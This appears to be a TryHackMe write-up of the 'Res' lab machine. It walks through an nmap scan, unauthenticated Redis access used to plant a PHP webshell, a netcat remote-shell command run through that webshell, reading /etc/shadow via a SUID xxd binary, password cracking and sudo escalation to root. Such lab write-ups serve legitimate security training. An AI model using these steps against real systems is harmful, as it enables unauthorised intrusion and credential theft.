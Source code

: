 # Res - Tryhackme Writeup

**Res is a vulnerable machine on TryHackMe. Through this machine, I was introduced to Redis (Remote Dictionary Server). It is the most popular key:value store for use as database, cache or queue. Redis is very insecure and should not be exposed over network. Redis does not have access control implementation and also it does not support encryption.**

# Walkthourgh  - Table of Contents

- [Reconnaissance](#Reconnaissance)
- [Vulnerability Identification](#Vulnerability-Identification)
- [Exploitation](#Exploitation)
- [Post-Exploitation](#Post-Exploitation)

*P.S. In my walkthrough, I have two different IP's for Res vulnerable machine. When I was working through this activity, the time on the vulnerable machine expired and I had to restart it. Hence two IPs (10.10.131.41 and 10.10.47.158).*

## Reconnaissance

**Nmap scan to find out the open ports and services**

```nmap -sV  -sC -p- 10.10.131.41```

![nmap scan](/images/nmap_scan.png)

**From the results we see that we have an Apache web server running on port 80 and Redis 6.0.7  on port 6379.**

## Vulnerability Identification

**1. Port 80 running Apache web server

Visiting the web application on http://10.10.131.41:80, displayed a standard Apache landing page. Nothing was revealed by examining the source code

![Web Application on Port 80](images/web_application .png)

Next I ran a directory scan using Dirbuster to look for any hidden directories or files, but no hidden directories was found.

![web directory enumeration screenshot](/images/dirbuster.png)

Moving on to next open port 6379 and enumerating the Redis service.

2. Port 6379 running Redis 6.0.7

After researching on Redis, I found out following issues that could be exploited.
* By default Redis can be accessed without credentials
* Using Redis we could write a webshell, if we know the directory path of the web application.**

## Exploitation

**To access Redis on 10.10.131.41, I installed redis-tools on my kali machine**

```sudo apt-get install redis-tools```

![redis_tools installation screenshot](/images/redis_tools.png)

**I try to connect to a Redis server without a password and I was successfully connected to Redis server.**

![redis connect screenshot](/images/connect_redis.png)

**Running the “INFO” command listed out the redis version, operating system, architecture, and more.**

![redis info screenshot](/images/info_redis.png)


**Writing a php script and saving it to the web directory**

![Webshell screenshot](/images/webshell.png)

**Shell writing is complete, executing it on the target machine**

![Webshell execution screenshot](/images/webshell_execution.png)

**Make a netcat connection to the attacker IP**

```10.10.131.41/shell.php?c=nc -e /bin/bash -lnvp 8888```

![access screenshot](/images/user.png)

## Post-Exploitation

### Privilage Escalation

**SUID bit is set for xxd**

![suid screenshot](/images/xxd_0.png)

**Referencing [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/), I learnt that xxd may be used to do privileged reads or disclose files outside a restricted file system. Using this capabilities, I gained read access of /etc/shadow file.**

![xxd screenshot](/images/xxd.png)


**Local user password hash from /etc/shadow file was found**

![password hash screenshot](/images/shadow.png)

**Using john the ripper, I cracked the local user password.**

![password cracked screenshot](/images/john.png)

**Once I logged in as the user, I found that the user had full sudo privileges. Using this privilege, I was able to switch user as root and gain root access**

Root access
![sudo screenshot](/images/root_access.png)







